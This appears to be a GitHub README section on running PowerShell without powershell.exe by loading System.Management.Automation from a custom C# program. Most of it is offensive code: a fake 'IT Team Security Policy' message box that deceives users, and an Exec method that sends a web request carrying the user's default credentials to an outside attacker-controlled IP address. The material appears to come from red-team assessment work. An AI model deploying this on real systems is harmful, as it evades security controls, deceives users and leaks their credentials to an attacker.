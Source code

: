 ### Powershell Attack Without Powershell.exe
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.

![Image of Yaktocat](https://raw.githubusercontent.com/NyaMeeEain/Infrastructure-Assessment/master/Images/PS_WT.PNG)

```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Windows.Forms;

public class Program
{
    public static void Main()
    {
        MessageBox.Show("Loading Security Services...", "IT Team Security Policy", MessageBoxButtons.YesNo, MessageBoxIcon.Question);
    }
    public class Code
    {
        public static void Exec()
        {
            string command = "Invoke-WebRequest -URI http://192.168.200.128:80/a -UseDefaultCredentials > null";
            RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
            Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
            rspace.Open();
            Pipeline pipeline = rspace.CreatePipeline();
            pipeline.Commands.AddScript(command);
            pipeline.Invoke();
        }
    }
}
```


